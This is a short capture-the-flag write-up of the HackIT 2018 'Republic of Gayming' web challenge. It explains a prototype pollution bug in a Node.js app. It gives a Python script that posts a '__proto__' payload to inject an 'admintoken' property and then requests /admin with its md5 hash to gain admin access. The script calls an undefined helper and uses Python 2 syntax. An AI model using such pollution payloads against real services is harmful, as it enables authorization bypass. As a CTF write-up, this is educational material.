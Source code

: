 This challenge was provided with source code access, written in nodejs.
The bug is related to prototype pollution in the [line](https://github.com/DefConUA/HackIT2018/blob/master/web/Republic_of_Gayming/app.js#L64)
The general idea behind prototype pollution is when you an expression like : 
obj[a][b] = value

And user can control a,b and value
if the users sets "a" to "\__proto__" and "b" to any property , he can injects attributes in all existing objects with the value "value"
for more details check [this](https://github.com/HoLyVieR/prototype-pollution-nsec18)

The script I used is pretty simple, pollute array proto with attribute admintoken and an arbitrary value, then query /admin with the md5 of that value,
Note: At some points lot of teams were changing the __proto__ at the same time so it became like a trivial race condition, but it can be won easy 
```python
import requests


r = requests.post('http://185.168.131.1:3000/api',json={'row':'__proto__','col':'admintoken','data':'qqq'})
r = requests.get('http://185.168.131.1:3000/admin?querytoken=' + md5sumhex('qqq'))
print r.text

```
